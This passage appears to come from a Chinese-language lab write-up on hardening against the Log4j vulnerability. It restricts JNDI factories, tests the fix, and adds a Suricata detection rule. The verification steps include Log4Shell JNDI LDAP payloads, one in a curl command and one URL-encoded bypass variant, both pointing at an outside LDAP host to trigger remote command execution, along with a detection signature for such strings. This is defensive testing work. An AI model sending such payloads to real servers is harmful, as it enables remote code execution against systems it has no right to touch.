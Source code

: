 - 在 `java.security` 文件中设置以下规则：

```properties
jdk.jndi.object.factoriesFilter=com.sun.jndi.ldap.*
```

------

### ✅ **阶段 2：验证修复效果**

1. **测试 Payload（预期失败）**

   - 使用基础 Payload：

   ```bash
   curl -G http://192.168.109.4:22220//hello \
   --data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}'
   ```

2. **绕过测试（预期失败）**

   - 使用绕过策略进行测试，确保已被拦截或解析失败：

   ```bash
   ${jndi:%6c%64%61%70://192.168.109.5:1389/tomcatBypass/Command/Base64/...}
   ```

3. **通过 Suricata 确认未触发异常流量**

```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

➡️ 如果未出现新的日志，说明修复成功

------

### ✅ **阶段 3：在 Suricata 中配置永久性检测**

🔹 目标：在 Suricata 规则中永久监控 Log4j 攻击和绕过行为

- 在 `/etc/suricata/rules/custom.rules` 中添加自定义规则：

```shell
alert tcp any any -> any any (msg:"LOG4J Exploit Attempt"; content:"${jndi:ldap://"; nocase; sid:1000001;)
```

- 重新加载 Suricata 规则：

```bash
suricata-update
```

------

## 🎯 **任务规划总结**

| 任务                        | 阶段                         | 预期效果                | 结果   |
| --------------------------- | ---------------------------- | ----------------------- | ------ |
| **任务 ①：缓解 Log4j 漏洞** | 禁用 JNDI、限制 LDAP         | 阻止直接触发            | ✅ 成功 |
| **任务 ①：测试绕过策略**    | URL 编码、Base64 绕过        | Suricata 报警或绕过成功 | ✅ 成功 |
| **任务 ②：修复 Log4j 漏洞** | 升级到 2.17.1                | Payload 失效            | ✅ 成功 |
| **任务 ②：确认修复效果**    | 重启 Suricata + 执行 Payload | 未出现新日志            | ✅ 成功 |
